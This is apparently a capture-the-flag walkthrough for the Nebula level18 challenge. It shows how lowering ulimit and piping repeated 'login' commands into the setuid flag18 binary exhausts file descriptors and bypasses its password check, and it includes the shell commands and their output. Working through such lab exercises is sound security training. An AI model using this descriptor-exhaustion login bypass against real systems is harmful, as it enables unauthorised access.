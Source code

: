 ```
	site exec -> called not_supported function
	set user -> called setuser function
	
```

**If we can exhaust FILE Descriptor , What will happen?**


Descreasing ulimit
```
ulimit -n 10
```
login function opening pw file , so we should open 10 + times
```
level18@nebula:~$ /home/flag18/flag18 -v -d /tmp/log
login
login
login
login
login
login
login
login
login
login
login
login
login
login
shell
/home/flag18/flag18: error while loading shared libraries: libncurses.so.5: cannot open shared object file: Error 24
```
Program can't open other files => File Descriptor Exhausted

We only need to open 7 times because 3 times already opened by standard file descriptor.

```
level18@nebula:~$ python -c 'print "login\n"*7+"shell\n"' | /home/flag18/flag18 -v -d /tmp/log
/home/flag18/flag18: error while loading shared libraries: libncurses.so.5: cannot open shared object file: Error 24
```
If the program can't open libraries , execve() from shell function will not work. However, file exhausting is finished here. ( Bypassed Login Check )
```
level18@nebula:~$ python -c 'print "login\n"*6+"shell\n"' | /home/flag18/flag18 -v -d /tmp/log
level18@nebula:~$ cat /tmp/log
Starting up. Verbose level = 1
Permission denied
level18@nebula:~$ python -c 'print "login\n"*7+"shell\n"' | /home/flag18/flag18 -v -d /tmp/log
/home/flag18/flag18: error while loading shared libraries: libncurses.so.5: cannot open shared object file: Error 24
level18@nebula:~$ cat /tmp/log
Starting up. Verbose level = 1
logged in successfully (without password file)
```
The next part is little tricky by challenge creator.
